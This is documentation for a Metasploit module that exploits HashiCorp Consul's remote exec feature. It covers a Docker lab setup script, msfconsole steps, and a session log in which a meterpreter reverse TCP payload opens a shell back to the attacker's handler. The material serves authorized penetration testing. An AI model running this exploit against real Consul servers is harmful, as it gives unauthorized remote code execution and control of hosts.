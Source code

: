 ## Vulnerable Application

[HashiCorp Consul][https://www.consul.io/] with `disable_remote_exec` configuration flag set to false (default configuration up to version 0.8, opt-in since version 0.9).

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.


#### References

* Consul Exec - https://www.consul.io/docs/commands/exec.html
* Consul _disable_remote_exec_ option - https://www.consul.io/docs/agent/options.html#disable_remote_exec
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:latest agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:latest agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
d28e7cf476ff2f148cad81a0b1959a7c67591c2e348c6172b6f463af66d1eb9a
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
38a7c1d93e7f  172.17.0.1:8301  alive   server  1.4.0  2         dc1  <all>
d28e7cf476ff  172.17.0.2:8301  alive   client  1.4.0  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do docker stop $h && docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST ip_of_consul_container`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
